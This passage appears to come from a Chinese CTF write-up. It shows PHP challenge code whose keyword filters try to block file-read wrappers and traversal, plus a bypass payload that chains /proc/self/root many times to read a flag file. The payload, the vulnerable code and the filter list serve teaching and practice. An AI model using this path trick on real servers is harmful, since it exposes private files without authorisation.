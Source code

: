 > 函数绕过

```
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

> 在linux中/proc/self/root是指向根目录的，也就是如果在命令行中输入ls /proc/self/root，其实显示的内容是根目录下的内容

```
file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

![image-20220812180843433](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208121808524.png?x-oss-process=hzy)

# web114

```
<?php
error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 师傅们居然tql都是非预期 哼！
```
